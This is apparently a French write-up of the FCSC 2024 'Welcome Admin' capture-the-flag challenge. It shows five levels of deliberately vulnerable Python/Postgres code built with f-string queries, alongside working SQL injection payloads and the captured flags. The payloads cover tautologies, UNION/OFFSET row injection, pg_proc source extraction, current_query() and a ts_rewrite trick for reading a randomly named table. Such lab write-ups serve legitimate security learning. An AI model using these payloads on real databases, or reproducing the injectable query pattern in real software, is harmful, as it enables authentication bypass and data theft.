 # FCSC 2024
## Challenges :
Welcome Admin 1/2  
Welcome Admin 2/2

## Thème : Injection de SQL
## Welcome Admin 1/2  
Au cœur d'un réseau labyrinthique, là où la lumière des écrans peine à éclairer les recoins les plus sombres, une demande spéciale est lancée dans les abîmes, un appel discret, attendu seulement par ceux qui connaissent les profondeurs. Seul un véritable expert pourra répondre à l'appel, cryptiquement formulé : "Un expert en SQL est demandé à la caisse numéro 3."

## Welcome Admin 2/2
Au cœur d'un réseau labyrinthique, là où la lumière des écrans peine à éclairer les recoins les plus sombres, une demande spéciale est lancée dans les abîmes, un appel discret, attendu seulement par ceux qui connaissent les profondeurs. Seul un véritable expert pourra répondre à l'appel, cryptiquement formulé : "Un expert en SQL est demandé à la caisse numéro 3."

URL du serveur : https://welcome-admin.france-cybersecurity-challenge.fr/
Lien du serveur de l’archive container : 
https://france-cybersecurity-challenge.fr/files/e8c67b40e1e1a23305e8592a647e5756/welcome-admin.tar.xz?token=eyJ1c2VyX2lkIjozNDEsInRlYW1faWQiOm51bGwsImZpbGVfaWQiOjE4OH0.Zhz9kg.gxNsCVdWeE4J0Wck30a0B0YfEbU

## Analyse des sources :
Serveur web écrit en Python avec une base Postgres
On peut le lancer en locale : 
docker-compose up --build
Le serveur est alors disponible en 127.0.0.1 :8000

Le code est assez simple , il y a 5 url qui correspondent aux 5 niveaux d’administration. 
Chaque niveau d’administration correspond à une injection SQL plus ou moins tordu	




## Level 1 :
Code python :
'''python
cursor.execute(f"SELECT '{token}' = '{password}'")
'''

Injection :
'''
' OR '1' = '1
'''

Flag : FCSC{94738150696e2903c924f0079bd95cd8256c648314654f32d6aaa090846a8af5}

## Level 2 :
Code python :
'''python

  cursor.execute(
        f"""
            CREATE FUNCTION check_password(_password text) RETURNS text
            AS $$
                BEGIN
                    IF _password = '{token}' THEN
                        RETURN _password;
                    END IF;
                    RETURN 'nope';
                END;
            $$ 
            IMMUTABLE LANGUAGE plpgsql;
        """
    )
    cursor.execute(f"SELECT  check_password('{password}')")
'''

La problématique est d’afficher le mot de passe aléatoire de la procédure. 
On utilise la table pg_proc & on fait un substring pour récupérer la valeur.

Injection :
'''
t')  UNION (select SUBSTRING(pg_get_functiondef(oid) FROM 178 FOR 32) from pg_proc where proname = 'check_password') LIMIT ('2
'''

## Level 3 :
Code python :
'''python

cursor.execute(f"SELECT '{token}', '{password}';")
    row = cursor.fetchone()
    if not row:
        return False
    if len(row) != 2:
        return False
    return row[1] == token
'''

La problématique est ici assez tordue. Il faut que la deuxième de la colonne de requête soit régale au token.
En explorant les fonctions tordu de la doc de postgres, je suis tombé sur current_query() qui permet de récupérer cette requête.
Injection :
'''
' || SUBSTRING(current_query() FROM 9 FOR 32) --
'''

## Level 4 :
Code python :
'''python

cursor.execute(f"""SELECT md5(random()::text), '{password}';""")
'''

Il est probablement impossible de deviner le md5(random() ::text)
Le plus est donc de faire qu’on injecte une nouvelle ligne de données et on ignore la première avec le UNION SELECT … OFFSET

Injection :
'''

' UNION SELECT 'toto', 'toto' OFFSET 1 –
'''


## Level 5 :
Code python :
'''python

@app.route("/turbo-admin", methods=["GET", "POST"])
@login_for(Rank.TURBO_ADMIN, Rank.FLAG, "/flag")
def level5(cursor: cursor, password: str):
    table_name = "table_" + os.urandom(16).hex()
    col_name = "col_" + os.urandom(16).hex()
    token = os.urandom(16).hex()

    cursor.execute(
        f"""
        CREATE TABLE "{table_name}" (
          id serial PRIMARY KEY,
          "{col_name}" text
        );

        INSERT INTO "{table_name}"("{col_name}") VALUES ('{token}');
        """
    )
    cursor.execute(f"SELECT '{password}';")
    row = cursor.fetchone()
    print(row)
    if not row:
        return False
    if len(row) != 1:
        return False
    return row[0] == token
'''


Le token, le plus tordu à récupérer.  Il est stocké dans une table avec un nom aléatoire et un nom de colonne aléatoire avec un contenu aléatoire.
Difficulté, on ne peut pas normalement pas faire de requête avec des nom variabilisé.
Il me fallait donc un sorte de fonction eval qui consomme un string pouvant contenir une requête.
Je suis tombé sur les ts_rewrite , to_tsquery dans la doc. 
Recherche rapide sur google pour trouver exemple d’utilisation sous forme d’exploit. Je tombe sur :
https://www.synacktiv.com/publications/dont-fear-the-bark-tsrewrite-to-dodge-the-mark

Le job est presque fait :
Injection :
'''

' UNION SELECT SUBSTRING(CAST(ts_rewrite('lock', 'SELECT to_tsquery(''lock''), to_tsquery(' || (SELECT column_name || ') FROM ' || table_name FROM information_schema.columns WHERE column_name like 'col\_%' and table_name like 'table\_%' LIMIT 1)) AS TEXT)||'', 2, 32) OFFSET 1  --

'''

Enfin, le flag :
'''
FCSC{a380e590ae8ffe8da9bb86f27d05203b7f9d32dd37c833c2764097840848b3a2}
'''
